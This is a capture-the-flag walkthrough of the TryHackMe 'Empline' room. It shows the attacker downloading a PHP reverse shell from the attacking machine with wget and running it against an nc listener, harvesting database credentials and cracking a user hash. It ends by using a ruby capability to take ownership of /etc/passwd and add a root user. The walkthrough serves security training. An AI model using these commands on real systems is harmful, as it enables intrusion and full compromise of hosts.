# [TryHackMe:Empline](https://tryhackme.com/room/empline)

## Enumeration 

establish simple Nmap scan to discover open ports.

```bash
sudo nmap -T4 -Pn <target>
```

**Result**





Discovering website inside source-page I found this redirect link



So I edited my host file to add this subdomain.


```bash
sudo nano /etc/hosts
# Add subdomain
<target ip>  job.empline.thm
```

then go to this domain. 



Doing more content discovery for this website, I found this login page `job.empline.thm/` which disclose the version of used software 



use `searchsploit` tool to search for CVEs we found this one.



## Initial access

Using it gives us RCE inside the server.



## Upgrade our shell

This exploit spawn inside `/var/www/opencats/upload/careerportaladd` we can use `wget` to upload more stable shell like [pentest monkey](https://github.com/pentestmonkey/php-reverse-shell). 

First we need to transfer file to target machine, So I will establish python http server (there is several ways but in this situation this is the easiest way).

```bash
# attacking machine
python3 -m http.server <port>
# target machine
wget <attacking>:<port>/revShell.php
```



establish `nc` listener on my attacking machine

```bash
nc -lnvp <port>
```

then on target machine run the shell

```bash
php revShell.php
```

**Shell have been upgraded**



## Enumeration

Install [LinPEAS](https://linpeas.org/) inside target machine to enumeration, LinPEAS learn us the `config.php` file.
Inside it I found credentials for database, From `/etc/passwd` we can elicit that mysql is the used DB.



**Login to *mysql***



inside *mysql* CLI we can use this queries to reach hash for user George who is a user inside target machine.



**Cracking hash**



**Connection to user with SSH**



### User flag



## PrivilegeESC

With same *LinPEAS* scan it shows us this capability for *ruby* that allow us to change `/etc/passwd` owner to our current user.



Using this payload from [GTFObins](https://gtfobins.org/)

```bash
ruby -e 'File.chown(1002, 1002, "/etc/passwd")'
```

**Following the next steps** to add new user with admin privileges, but first we need to create password hash.

```bash
openssl passwd -1 <password> | xclip -selection clipboard
```

then follow this steps to add new root user.



### root flag


